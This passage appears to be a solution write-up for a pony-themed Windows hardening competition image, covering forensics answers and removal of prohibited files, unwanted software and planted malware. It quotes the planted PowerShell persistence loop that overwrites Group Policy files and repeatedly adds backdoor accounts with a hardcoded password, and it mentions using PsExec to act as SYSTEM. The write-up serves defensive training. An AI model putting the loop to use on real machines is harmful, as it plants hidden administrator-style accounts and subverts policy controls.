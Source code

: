 ```powershell
while ($true){
  Del C:\Windows\system32\GroupPolicy\User\Registry.pol
  Del C:\Windows\system32\GroupPolicy\gpt.ini
  Copy-Item "C:\Users\Fluttershy\AppData\Roaming\Microsoft\Windows\Templates\gpt.ini" -Destination "C:\Windows\system32\GroupPolicy"
  Copy-Item "C:\Users\Fluttershy\AppData\Roaming\Microsoft\Windows\Templates\Registry.pol" -Destination "C:\Windows\system32\GroupPolicy\User"
  gpupdate /force
  net user 'Changeling1' Y0uH@v1ngFuNY37? /add /Y
  net user 'Changeling2' Y0uH@v1ngFuNY37? /add /Y
  net user 'Changeling3' Y0uH@v1ngFuNY37? /add /Y
  Start-Sleep -Seconds 30
}
```

Reading the code, we can see what the password is for the changelings.

Answer = `Y0uH@v1ngFuNY37?`

## Vulnerabilites

For the sake of simplicity, we'll go a bit out of order.

## Prohibited Files: 3

Just delete all the secret notes from the forensics.
`C:\Users\Pinkie Pie\AppData\Local\Microsoft\Windows\Notes\polyglot.pdf`
`C:\Users\Fluttershy\AppData\Local\Microsoft\QuestRose\scanme.txt`
`C:\Users\Rarity\Documents\xor.txt`

## Unwanted Software: 3

Uninstall or delete Discord at `C:\Users\Applejack\AppData\Local\Discord\app-1.0.9008\Discord.exe`. You may have noticed that the command prompt was replaced by a fake one that doesn't work. Just go and delete it at `C:\Windows\SysWOW64\cmd.exe`. Finally, there is a game located at `C:\Users\Twilight Sparkle\Saved Games\T-3Portable`. If you try to delete it normally, you won't be able to due to permissions. However, what's more interesting about this game folder is that it has a system integrity level, which means that only the system (or higher technically) can change its permissions, so you can't even take ownership and add permissions. The fastest way to delete it is to run PsExec, run PowerShell as the system user, and delete it like that.

## Malware: 2

First, delete `C:\Windows\PolicyDefinitions\Queen.admx` for the malicious group policy extension.

For the service, first stop it and delete `C:\Users\Fluttershy\AppData\Roaming\Microsoft\Protect\Security\queenservice.ps1` and `C:\Users\Fluttershy\AppData\Local\Microsoft\Windows\Safety\*`.

## User Auditing: 2

Opening up `lusrmgr.msc` results in a blank page, and trying to run `net user` will return an error. There are two things that are causing this.
